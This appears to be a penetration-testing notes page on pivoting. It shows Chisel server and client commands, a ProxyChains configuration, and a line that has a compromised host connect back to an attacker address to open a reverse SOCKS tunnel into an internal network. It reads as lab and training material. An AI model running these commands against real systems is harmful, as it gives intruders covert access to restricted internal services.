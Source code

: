 ```yaml
---
description: chisel, proxychains & ssh
---
```


# Proxying

## Contents:

* [Chisel](proxying.md#chisel-and-proxychains-tunneling-and-pivoting)

## 🔀 Chisel & ProxyChains: Tunneling & Pivoting

Techniques: [https://attack.mitre.org/techniques/T1090/](https://attack.mitre.org/techniques/T1090/)

When working on **internal network enumeration** or **pivoting**, **Chisel** combined with **ProxyChains** allows you to **route traffic through a compromised host** and access restricted services.

***

#### **1️⃣ Attacker: Start Chisel Server**

On your **attacking machine (Kali, Parrot, etc.)**, start a **Chisel server** that listens for reverse connections:

```bash
chisel server --reverse -p 9001 --socks5 -v
```

**📝 Explanation**

<table><thead><tr><th>Command</th><th>Description</th><th data-hidden></th></tr></thead><tbody><tr><td><code>--reverse</code></td><td>Allows reverse tunneling (victim connects back to attacker)</td><td></td></tr><tr><td><code>-p 9001</code></td><td>Runs the Chisel server on <strong>port 9001</strong></td><td></td></tr><tr><td><code>--socks5</code></td><td>Enables a <strong>SOCKS5 proxy</strong></td><td></td></tr><tr><td><code>-v</code></td><td><strong>Verbose mode</strong> for debugging</td><td></td></tr></tbody></table>

#### **2️⃣ Configuring ProxyChains**

To tunnel traffic through the compromised host, edit **ProxyChains configuration** on the attacker’s machine:

**Edit: `/etc/proxychains.conf`**

```bash
nano /etc/proxychains.conf
```

**Scroll to the bottom and set:**

```bash
socks5 127.0.0.1 1080
```

`127.0.0.1 1080` → **SOCKS5 proxy is running locally on port 1080**

#### **3️⃣ Victim: Connect Back to Attacker**

On the **compromised target**, download and execute Chisel:

```bash
chmod +x chisel
./chisel client 10.10.14.21:9001 R:socks
```

**📝 Explanation**

* Connects **back to the attacker’s Chisel server (10.10.14.21:9001)**
* `R:socks` → Creates a **SOCKS proxy tunnel**

#### **4️⃣ Using ProxyChains for Access**

Once the tunnel is established, **route your tools through the compromised host** using ProxyChains.

**Example: Browse Internal Services**

```bash
proxychains firefox 127.0.0.1:8080
```
